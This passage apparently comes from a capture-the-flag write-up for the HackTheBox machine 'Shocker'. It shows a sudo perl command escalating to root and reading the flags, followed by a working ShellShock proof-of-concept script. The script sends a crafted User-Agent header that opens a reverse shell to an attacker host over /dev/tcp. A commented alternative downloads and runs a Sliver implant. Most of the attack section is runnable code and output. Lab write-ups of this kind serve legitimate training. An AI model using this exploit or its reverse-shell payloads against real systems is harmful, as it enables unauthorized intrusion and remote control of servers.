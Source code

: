 ```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

Alright, now we're talking. We don't have a *pretty* shell but we're root! And it was pretty easy too. And there we have it, we've exploited the machine and obtained root permissions, from here we can read the `/home/shelly/user.txt` and the `/root/root.txt` and get our whole 0 points from HackTheBox!

```bash
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
sudo /usr/bin/perl -e 'exec "/bin/bash";'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /home/shelly/user.txt
13f51b<-- REDACTED -->
cat /root/root.txt  
b1fd49<-- REDACTED -->
```
<br>

# Super basic POC
---

```bash {.line-numbers}
#!/usr/bin/bash

# Super Basic POC Exploit code for HackTheBox Shocker
# Utilizes the ShellShock exploit

# Author: Brad Roberts

if [ $# -lt 2 ];then
    echo "Usage: $0 [LHOST] [LPORT]"
    exit 1
fi

LHOST=$1
LPORT=$2

TARGET="http://10.10.10.56/cgi-bin/user.sh"

PAYLOAD="/bin/bash -c 'bash -i >& /dev/tcp/${LHOST}/${LPORT} 0>&1'"
# Fan of Bishop Fox and use Sliver? Build a mtls payload using `generate --os linux --mtls <your attacker ip> -N sploit`
# oh and make sure to make it world readable when you start up your webserver :)
# PAYLOAD="/bin/bash -c 'cd /tmp; curl http://${LHOST}:8080/sploit -o sploit; chmod +x sploit; /tmp/sploit &'"

curl -H "User-Agent: () { :; }; echo; echo; ${PAYLOAD}" ${TARGET}
```
<br>
